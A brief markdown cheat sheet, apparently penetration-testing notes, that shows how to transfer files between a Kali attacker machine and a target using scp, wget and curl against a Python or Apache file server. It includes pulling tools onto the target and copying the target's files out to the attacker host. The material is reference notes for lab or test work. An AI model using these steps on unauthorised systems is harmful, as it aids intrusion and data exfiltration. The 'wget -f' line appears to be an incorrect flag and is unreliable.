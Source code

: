 
### transfer files

##### scp

kali
```
sudo service ssh start
```

target
```
from kali to target:
scp kali@<ip>:<s_path> <d_path>

from target to kali:
scp <s_path> kali@<IP>:<d_path>
```

kali
```
sudo service ssh stop
```

##### wget

open python server on kali or apache server

apache
```
systemctl restart apache2
```

python
```
python3 -m http.server 8000
```

on target:
```
wget -f http://<ip>:<port>/<file_path>
```

##### curl

open python server on kali or apache server

apache
```
systemctl restart apache2
```

python
```
python3 -m http.server 8000
```

```
curl http://<ip>:<port>/<file_path> -o <d_path>
```
